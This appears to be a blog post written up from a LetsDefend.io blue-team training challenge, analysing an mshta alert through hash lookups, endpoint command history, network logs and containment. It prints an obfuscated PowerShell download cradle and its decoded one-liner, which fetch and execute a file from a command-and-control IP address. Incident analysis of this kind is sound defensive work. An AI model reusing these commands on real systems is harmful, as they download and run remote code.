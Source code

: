 ```yaml
---
layout: post
published: true
title: write up - suspicious mshta behavior
author: admin
comments: true
date: '2022-04-13 18:00'
categories:
  - DFIR
---
```


I've been trying out [letsdefend.io](https://letsdefend.io/) for a couple of week, and here's a write up of one of the challenge. its a platform to hone your blue teaming skill, you will be using some sort of SIEM apps and act as an analyst, i.e. finding IOC and deciding escalation etc. There are not a lot of blue team training site, and this hands on concept by [letsdefend.io](https://letsdefend.io/) is great. 

With that intro about [letsdefend.io](https://letsdefend.io/) out of the way, here goes the write up. 
<!--more-->

![mshta behaviour](/images/wup_ld.png)

This is what the case looked like, basically a host execute hta file thus an alert is triggered. Our job is to see what really happened and do the intended playbook exercise. Some things that we can check to help with analysis are the hash (virustotal) and the IP address (we'll try command history/ proccess history at the endpoint security tab). Afterward we are gonna decide on containment (eradication and recovery) and last the lesson learned from said incident.

#### virustotal

We can use the hash we found at the first picture to search scan result at virustotal. The [result on virustotal](https://www.virustotal.com/gui/file/886095c7861a068d1ee603c71cb161f256941e802e743fe2161f30013947a2f1/detection) look pretty bad, 23/58 malicious flag. you could also try to find the file and do more analysis, but for now I think we can move to endpoint security tabs and do more analysis there.

#### endpoint security

![wup_endpoint](/images/wup_endpoint.png)

We use endpoint security tab to find out what was happening in the host 172.16.17.38. 
The screenshot above is from the command history portion of the tab, where we can see the first command line that trigger the alert, followed by another not so clear command.

```bash 
C:/Windows/System32/mshta.exe C:/Users/roberto/Desktop/Ps1.hta
```

The first command above is what triggered the alert. Mshta is a trusted Microsoft binary that in this case is abused for execution of the Ps1.hta file. 
you can see the related explanation here at the [MITRE](https://attack.mitre.org/techniques/T1218/005/)

Now we tried a bit of magic at the second command so it will be more readable. 

```bash
function H1($i) 
{$r = '' ; for ($n = 0; $n -Lt $i.LengtH; $n += 2)
{$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
$H2 = (new-object ('{1}{0}{2}' -f'WebCL','net.','ient'));
$H3 = H1 '446f776E';
$H4 = H1 '6C6f';
$H5 = H1 '616473747269';
$H6 = H1 '6E67';
$H7 = $H3+$H4+$H5+$H6;
$H8 = $H2.$H7('http://193.142.58.23/Server.txt');
iEX $H8
```

* $H3-H6 with the help of $H1 just basically hex that reads "Downloadstring". 
* $H2 was a glorified "New-Object Net.WebClient". 
* $H8 puts them all together to form an old fashion download using powershell from address mentioned in $H8. Together they'll probably looked like 
```bash 
IEX (New-Object Net.WebClient).DownloadString('http://193.142.58.23/Server.txt').
```

So it's a call to C2 server 193.142.58.23, probably trying to download something.

#### log management

After seeing what the script do, we best check log management and try to see did the host (172.16.17.38) managed to reach the C2 server (193.142.58.23) what the C2 server reply with. We can do this by filtering source/ dest. address using host and/or C2 server IP that we had before. Below is the filtered result of from the log management tabs.

![wup_endpoint](/images/wup_logmgmt.png)

There we can see that the C2 server replied with 404, so no response arrived for the host (172.16.17.38) because the server is dead/ the file was not there.

#### containment and lesson learned

Based on our previous analysis, we can safely conclude that its a malicious script, but stopped due to the C2 server is dead. 
Next step would be to contain the host. We can do this by going to endpoint security and use the request containment button. 

Lastly, we can use the IP address, and URL and also the md5 hash of the executed file can as IOC when we did the playbook and also close the case.



